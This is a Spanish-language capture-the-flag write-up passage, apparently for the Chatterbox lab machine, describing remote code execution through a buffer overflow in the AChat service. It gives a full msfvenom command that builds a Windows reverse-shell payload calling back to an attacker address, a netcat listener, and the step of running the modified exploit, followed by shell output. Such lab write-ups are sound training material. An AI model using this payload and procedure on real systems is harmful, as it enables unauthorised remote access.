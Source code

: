 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con Remote BOF {-}


1. Nos creamos un nuevo shellcode basada a la informacion del exploit

    ```bash
    msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\
    x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\
    xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\
    xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\
    xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    ```

1. Copiamos el shell code generado y lo ponemos al sitio del buff shellcode del exploit
1. Cambiamos la ip de la maquina victima
1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el exploit modificado con python 2

    ```bash
    python achat_exploit.py
    ```

```bash
whoami
#Output
chatterbox\alfred
```

Podemos leer la flag